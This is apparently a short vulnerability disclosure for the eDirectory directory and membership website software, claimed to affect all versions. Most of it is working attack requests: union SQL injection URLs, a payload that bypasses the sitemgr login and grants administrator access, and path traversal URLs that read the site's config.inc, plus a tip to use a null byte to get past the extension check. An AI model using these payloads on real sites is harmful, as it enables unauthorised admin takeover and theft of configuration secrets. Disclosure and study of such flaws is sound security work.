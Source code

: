# eDirectory Multiple Vulnerabilities

Author: Efren Diaz @elefr3n

Vendor: https://www.edirectory.com/

Reported: ago/sep 2018 (without response :D)

Software Description: eDirectory is a software to create your own membership website, business directories, yellow pages, coupon sites, local guide, lead gen sites and more.

Version: All

## SQLi
Union SQLi:
```
http://site.com/location.php?type=byId&id=[INT]&childLevel=[INT]&level=[SQLi]
http://site.com/sitemgr/login.php?key=[SQLi]
```

## SQLi to login bypass
Sometimes returns "Invalid key error", then press F5 and you will logged as an administrator :)
```
http://site.com/sitemgr/login.php?key=' union select 0,1,0,'sitemgr' -- -
```

## Authenticated File Dissclosure
Only files with .php extension, but don't forget try nullbyte to avoid that :D
```
http://site.com/sitemgr/langcenter/language_file.php?language_area=front&domain_id=1&language_id=../conf/config.inc
http://site.com/sitemgr/configuration/geography/language/language_file.php?language_area=front&domain_id=1&language_id=../conf/config.inc
```
